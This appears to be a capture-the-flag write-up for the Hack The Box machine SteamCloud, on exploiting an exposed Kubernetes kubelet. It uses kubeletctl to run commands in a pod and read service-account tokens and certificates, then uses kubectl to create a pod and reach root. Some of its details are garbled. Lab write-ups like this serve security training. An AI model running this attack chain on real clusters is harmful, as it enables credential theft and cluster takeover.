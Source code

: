 ```yaml
---
title: SteamCloud Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

````ruby
 PORT STATUS SERVICE VERSION
 22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
 | ssh-hostkey: 
 | 2048 fcfb90ee7c73a1d4bf87f871e844c63c (RSA)
 | 256 46832b1b01db71646a3e27cb536f81a1 (ECDSA)
 |256 1d8dd341f3ffa437e8ac780889c2e3c5 (ED25519)
 2379/tcp open ssl/etcd-client?
 | tls-alpn: 
 |_ h2
 | ssl-cert: Subject: commonName=steamcloud
 | Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.129.100.253, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:0:0:0:1
 |Invalid before: 2022-11-17T20:33:08
 |_ssl-date: Not valid after: 2023-11-17T20:33:09
 |_ssl-date: TLS randomness does not represent time
 2380/tcp open ssl/etcd-server?
 | tls-alpn: 
 |_ h2
 | ssl-cert: Subject: commonName=steamcloud
 | Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.129.100.253, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:0:0:0:1
 |Invalid before: 2022-11-17T20:33:08
 |_ssl-date: Not valid after: 2023-11-17T20:33:09
 |_ssl-date: TLS randomization does not represent time
 8443/tcp open ssl/https-alt
 | fingerprint-strings: 
 | FourOhFourRequest: 
 | HTTP/1.0 403 Forbidden
 | Audit-Id: e6c52384-d61c-4697-ae29-cefc13646345
 | Cache-Control: no-cache, private
 | Content-Type: application/json
 | X-Content-Type-Options: nosniff
 | X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
 | X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
 | Date: Thu, 17 Nov 2022 20:38:37 GMT
 | Content: 212
 | {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failure", "message": "forbidden: "User "system:anonymous" cannot get path"/nice ports,/Trinity.txt.bak"", "reason": "Forbidden", "details":{}, "code":403}
 | GetRequest: 
 | HTTP/1.0 403 Forbidden
 | Audit-Id: 9179f2a5-3526-44c6-9dc4-b8a2e3624547
 | Cache-Control: no-cache, private
 | Content-Type: application/json
 | X-Content-Type-Options: nosniff
 | X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
 | X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
 | Date: Thu, 17 Nov 2022 20:38:36 GMT
 | Content: 185
 | {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failed", "message": "forbidden: "User "system:anonymous" cannot get path "/"", "reason": "Forbidden", "details":{}, "code":403}
 | HTTPOptions: 
 | HTTP/1.0 403 Forbidden
| Audit-Id: c8cc664f-0379-4728-b17a-bd8bd4943cf0
| Cache-Control: no-cache, private
| Content-Type: application/json
| X-Content-Type-Options: nosniff
| X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
| X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
| Date: Thu, 17 Nov 2022 20:38:36 GMT
| Contents: 189
|_ {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failed", "message": "forbidden: "User "system:anonymous" cannot options path "/"", "reason": "Forbidden", "details":{}, "code":403}
|_http-title: Site has no title (application/json).
| tls-alpn: 
| h2
|_http/1.1
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:kubernetes, DNS:localhost, IP Address:10.129.100.253, IP Addre
ss:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
|Invalid before: 2022-11-16T20:33:06
|_ssl-date: Not valid after: 2025-11-16T20:33:06
|_ssl-date: TLS randomness does not represent time
10249/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
10250/tcp open ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
|_ssl-date: TLS randomness does not represent time.
| ssl-cert: Subject: commonName=steamcloud@1668717190
|_ssl-cert: Subject alternate name: DNS:steamcloud
| Not valid before: 2022-11-17T19:33:10
| Invalid after: 2023-11-17T19:33:10
| tls-alpn: 
| h2
| http/1.1
10256/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
1 service not recognized despite returning data. If you know the service/version, please send the following fingerprint to https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.93%T=SSL%I=7%D=11/17%Time=63769BCC%P=x86_64-pc-linux-g
```

Looking at port 10250 we already know that we are dealing with kubernetes, and 8443 for tomcat and https.

# User exploit 

We investigate about kubernetes in hacktricks:
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-basics

Using the command
```shell
kubeletctl pods --server 10.129.100.253 
```

We can see that it has a default service, which is nginx.

If we do 
```shell
kubeletctl scan token --server 10.129.100.253
```

we can get the account token of each service, getting the nginx account token again, but I don't know if it does any good.

With the command 
```shell
kubeletctl scan rce --server 10.129.100.253
```
we see that nginx has a RCE, so let's exploit it. However, with the following command we can see the user.txt:

```shell
kubeletctl run "cat /root/user.txt" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

## Root exploit

Using the command 
```shell
kubeletctl run "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

we can see the nginx certificate (I guess)

and the token:

```shell
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

Once we have it, we can connect to the machine:

```shell
export token = (Token previously taken)

kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 get pods
```

Once we are inside, let's see what permissions we have:

```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.100.253:8443 auth can-i --list
```

and we see that we can create lists in the pods and their respective permissions.

As we have the list and create permissions, we can create a new user from a .yaml file.

Let's create the `nginx` pod and list it :
```shell
kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 apply -f f.yaml

kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 get pods
```

finally, we can see the root.txt
```shell
kubeletctl --server 10.129.100.253 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```

 

